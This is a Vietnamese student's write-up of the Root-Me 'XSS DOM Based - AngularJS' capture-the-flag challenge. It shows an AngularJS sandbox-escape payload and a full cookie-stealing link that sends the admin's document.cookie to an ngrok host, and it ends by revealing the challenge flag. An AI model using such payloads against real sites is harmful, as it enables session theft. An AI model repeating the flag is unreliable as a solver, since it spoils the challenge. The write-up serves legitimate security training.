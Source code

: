 # Challenge: XSS DOM Based - AngularJS
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 180 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS?lang=en
- Bài này cũng giống như bài trước `XSS DOM Base - Intro`, cũng có 2 trang `Main` và `Contact` Phần chính (main) của trang web cho ta một ô nhập dữ liệu, còn phần contact thì ta gởi đường dẫn để admin truy cập.
<p align="center"><img src="./images/3.1.png"></p>
Trong phần nhập liệu, khi chúng ta thử nhập một số văn bản bình thường thì ta thấy nó đều in ở dưới phần result và thực hiện tình toán. Chúng ta cần xem souce code của nó thử xem nó render ra cho ta gì? 
<p align="center"><img src="./images/3.4.png"></p>
Ta thử nhập chuỗi 1231';>23 Lúc này ta thấy nó đã lọc và xóa đi những kí tự đặc biệt, ở cả 2 nơi (thẻ p và script)
<p align="center"><img src="./images/3.5.png"></p>

- đề bài có đề cập đến AngularJS, nên ta kiểm tra thử với input là `{{1+1}}`. khi đó ta thấy phần result cho ra kết quả là 2. 
<p align="center"><img src="./images/3.2.png"></p>
- đến đây ta thấy nó đang thực hiện lệnh trong script, đây là lỗi xss, ta tiếp tục cố gắng thực hiện lệnh alert(1). Tuy nhiên thì nó cũng không thực hiện gì cả, cũng không có thông báo gì cả.
<p align="center"><img src="./images/3.3.png"></p>
- Tìm kiếm thêm trên google, tìm được <a href="https://spring.io/blog/2016/01/28/angularjs-escaping-the-expression-sandbox-for-xss" alt=""> bài này</a>

- Thực thi lệnh alert(1) bằng input `{{$on.constructor("alert(1)")()}}`
<p align="center"><img src="./images/3.6.png"></p>

- Tương tự như những bài trước đến đầy ta sẽ có input để có thể lấy được cookie gởi về server của ta như sau: `{{$on.constructor("document.location='http://b8d1-113-161-34-227.ngrok.io/?cookie='+document.cookie")()}}`. Tuy nhiên, ta sẽ nhận lỗi trang web đã lọc kí tự `'`, do đó ta sẽ thay thế bằng `$#39;`. 
<p align="center"><img src="./images/3.7.png"></p>

- Khi đó ta được `{{$on.constructor("document.location=&#39;http://b8d1-113-161-34-227.ngrok.io/?cookie=&#39;+document.cookie")()}}`, ta nhập nó vào ô input,
<p align="center"><img src="./images/3.8.png"></p>

- Để có thể lấy được đường link gởi cho admin, ta dùng tiện ích HTTP Header Live `http://challenge01.root-me.org/web-client/ch35/index.php?name=%7B%7B%24on.constructor%28%22document.location%3D%26%2339%3Bhttp%3A%2F%2Fb8d1-113-161-34-227.ngrok.io%2F%3Fcookie%3D%26%2339%3B%2Bdocument.cookie%22%29%28%29%7D%7D`. Sau khi có được link ta vào Contact và gởi nó cho admin.
<p align="center"><img src="./images/3.9.png"></p>
<p align="center"><img src="./images/3.10.png"></p>
- Kiểm tra server PHP ta thấy được cookie được gởi đến bỡi admin
<p align="center"><img src="./images/3.11.png"></p>

## Kết quả flag là `rootme{@NGu1@R_J$_1$_C001}`